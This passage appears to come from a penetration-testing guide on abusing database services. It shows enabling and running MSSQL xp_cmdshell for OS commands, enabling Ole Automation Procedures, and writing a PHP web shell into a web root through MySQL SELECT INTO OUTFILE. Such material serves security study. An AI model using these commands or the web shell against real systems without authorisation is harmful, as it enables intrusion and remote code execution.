 To execute commands using SQL syntax on MSSQL, use:
```console
1> xp_cmdshell 'whoami'
2> GO
```

If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

### Write Local Files 

MySQL does not have a stored procedure like `xp_cmdshell`, but we can archive command execution if we write to a location in the file system that can execute our commands, using `SELECT INTO OUTFILE` in the webserver directory:
```console
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

In MySQL, a global system variable `secure_file_priv` limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the `LOAD_FILE()` function. These operations are permitted only to users who have the **FILE** privilege. `secure_file_priv` may be set as follows:
- If **empty**, the variable has no effect, which is not a secure setting.
- If set to the **name of a directory**, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to **NULL**, the server disables import and export operations.

```console
mysql> show variables like "secure_file_priv";
```

To write files using MSSQL, we need to enable **Ole Automation Procedures**, which requires admin privileges, and then execute some stored procedures to create the file. To enable it:
```console
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
